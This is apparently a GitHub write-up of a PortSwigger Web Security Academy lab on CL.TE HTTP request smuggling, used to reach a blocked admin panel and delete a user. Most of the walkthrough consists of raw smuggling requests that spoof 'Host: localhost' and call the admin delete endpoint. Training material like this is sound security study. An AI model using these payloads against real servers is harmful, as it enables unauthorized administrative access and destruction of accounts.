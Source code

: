 Title: Exploiting HTTP request smuggling to bypass front-end security controls, CL.TE vulnerability
Level: PRACTITIONER
Desc:  This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. There's an admin panel at /admin, but the front-end server blocks access to it.
To solve the lab, smuggle a request to the back-end server that accesses the admin panel and deletes the user carlos
Hint: Although the lab supports HTTP/2, the intended solution requires techniques that are only possible in HTTP/1. You can manually switch protocols in Burp Repeater from the Request attributes section of the Inspector panel. 

Hint2: Manually fixing the length fields in request smuggling attacks can be tricky. Our HTTP Request Smuggler Burp extension was designed to help. You can install it via the BApp Store. 

# Walkthrough:
<img width="692" height="110" alt="image" src="https://github.com/user-attachments/assets/f63bdd26-a345-4f83-ba00-875ea4d32adf" />


<img width="521" height="217" alt="image" src="https://github.com/user-attachments/assets/e880a02d-f333-4253-a2c1-6287da479955" />
Requesting the following request twice:

```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
X-Ignore: X
```

Second request says: Unauthorized
<img width="1080" height="232" alt="image" src="https://github.com/user-attachments/assets/ee4abcd3-a2ac-43cd-a91e-52b05dd3817f" />

We can see in error message (in response to first request being sent twice), that admin panel is only visible for local users. So we add : `Host: localhost`
Requesting the following request twice:
```
POST / HTTP/1.1
Host: YOUR-LAB-ID.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 54
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
X-Ignore: X
```
Now we have another error: Duplicate header names are not allowed:
<img width="1250" height="252" alt="image" src="https://github.com/user-attachments/assets/b319f541-5d05-443c-99ad-a3257fc92f77" />

We send again, following header twice:
```
POST / HTTP/1.1
Host: 0ac200f904ed70df8195b617001b00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 116
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

x=
```

And we get to the admin panel.

Sending this request twice:
```
POST / HTTP/1.1
Host: 0ac200f904ed70df8195b617001b00b1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 139
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 23

x=
```
And we have carlos deleted.

